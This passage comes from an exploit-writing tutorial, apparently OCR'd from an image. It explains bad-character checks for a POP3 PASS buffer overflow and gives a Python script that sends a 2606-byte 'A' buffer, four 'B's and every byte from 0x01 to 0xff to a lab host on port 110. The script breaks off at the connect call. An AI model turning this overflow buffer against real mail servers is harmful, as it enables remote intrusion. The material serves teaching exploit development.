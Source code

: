 This character is considered bad because a null byte is also used to terminate a
string

copy operation, which would effectively truncate our buffer to wherever the
first null

byte appears.

Another example of a bad character, specific to the POP3 PASS command, is the
carriage return (0x0D), which signifies to the application that the end of the
password has been reached.

An experienced exploit writer knows to check for bad characters,to prevent
future problems. An easy way to do this is to send all possible characters, from
0x00 to 0xff, as part of our buffer, and see how these characters are dealt with
by the application, after the crash occurs.

检查脚本:

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

badchars = (

"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10"

"\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20"

"\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30"

"\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40"

"\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50"

"\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60"

"\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70"

"\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80"

"\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90"

"\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0"

"\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0"

"\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0"

"\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0"

"\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0"

"\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0"

"\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff")

buffer="A"\*2606 + "B"\*4 + badchars

try:

>   print "\\nSending evil buffer..."

>   s.connect(('10.0.0.22',110))
